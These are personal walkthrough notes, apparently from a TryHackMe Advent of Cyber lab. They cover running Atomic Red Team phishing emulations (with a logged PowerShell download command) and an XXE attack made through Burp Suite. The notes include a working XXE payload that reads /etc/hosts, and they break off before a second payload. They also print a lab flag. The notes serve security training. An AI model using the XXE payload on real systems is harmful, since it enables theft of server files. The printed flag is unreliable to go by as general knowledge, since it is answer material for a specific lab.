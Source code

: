 ## What I learned
- Web shells
- RCE
- Usage of ELK


# Day 4

- Start by running ``` Get-Help Invoke-Atomictest ``` to get the general information on the command like the syntax 
- We need to understand the 'T1566.001' attack, so we use the command 
    ``` Invoke-AtomicTest T1566.001 -ShowDetails ```
- Through this we get information like the description and the attack commands, as well as the cleanup commands 
- Now we try to emulate the attack by running 
    ``` Invoke-AtomicTest T1566.001 -TestNumbers 1 ```
- Accessing Sysmon through the evenet viewer,we see that there was a process created for powershell to execute: 
    ```
    "powershell.exe" & {$url = 'http://localhost/PhishingAttachment.xlsm' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm}.
    ```
- We find that this is saved in the directory: C:\Users\ADMINI~1\AppData\Local\Temp\
- Navigatin to this directory, we find PhishingAttachment.txt
- This file contains the first flag
- For the answers to the remaining questions, we use ``` Invoke-AtomicTest T1059.003 -ShowDetails ```
- We run test number 4 for this and it gives us a pdf with the flag THM{R2xpdGNoIGlzIG5vdCB0aGUgZW5lbXk=}

# Day 5

-  Begins with an introduction to XML, XXE and how it can be used to procure sensitive information 
- Open the website and add wareville's Jolly cap to wishlist 
- Wish gets saved as Wish 21 which cannot be accessed now 
- Open burpsuite, head to the proxy tab and set intercept on, open browser and access the website again 
- When we click on add to wishlist, a post request is created with the following data:
    ``` <wishlist>
                <user_id>1</user_id>
                <item>
                        <product_id>1</product_id>
                </item>
        </wishlist>
```
- We modify the request to include an external entity like this:
```

<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```
- We now have the information under /etc/hosts
- We now use the following payload to access the information that is visible only to admins:
```
